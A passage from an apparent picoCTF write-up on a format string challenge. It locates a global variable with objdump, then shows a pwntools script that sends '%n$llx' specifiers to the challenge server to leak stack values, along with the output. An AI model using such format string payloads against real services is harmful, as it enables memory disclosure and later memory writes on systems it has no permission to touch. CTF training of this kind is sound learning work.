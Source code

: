 `if (sus == 0x67616c66), printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");`
1. Checks if `sus` is equal to `0x67616c66`
2. If `sus` *is* equal to `0x67616c66`, we get the flag

So all we need to do is change the variable `sus` to equal `0x67616c66`

## Finding sus's address

Before changing the `sus` variable, we need to understand where it's being stored. To find that, I decided to use obj, but realistically any decompiler can work. The command I ran was:
```
~/Downloadss > objdump -t ./vuln | grep sus
0000000000404060 g     O .data	0000000000000004              sus

~/Downloadss >
```
From this, we know that the memory address where `sus` is being stored is `0x404060` (the `0x` is there because all memory addresses start with this).

From here, I recalled the challenge's hint- that pwntools would be crucial to beating this.


## Experimenting

Firstly, we can try to read stack values:

```py
from pwn import *

r = remote('rhea.picoctf.net',61512)
r.sendline(b'%1$llx,%2$llx,%3$llx,%4$llx,%5$llx,%6$llx,WEAREHERE')
r.interactive()
```
- The numbers (1, 2, 3 ,4 ,5 ,6), specify the offset on the stack
- This use the `llx` modifier is so that we print 8 bytes rather than 4

After running this python script, we receive this output:

```
> python3 solve.py
[<] Opening connection to rhea.picoctf.net on port 61512: Trying 3.13[+] Opening connection to rhea.picoctf.net on port 61512: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 402075,0,7ab445893a00,0,10962b0,7ab4458e5af0,WEAREHERE
sus = 0x21737573
You can do better!
[*] Got EOF while reading in interactive
$
```
This doesn't give us anything though. If we put each individual hex through [Cyberchef](https://gchq.github.io/CyberChef/), it just returns gibberish.
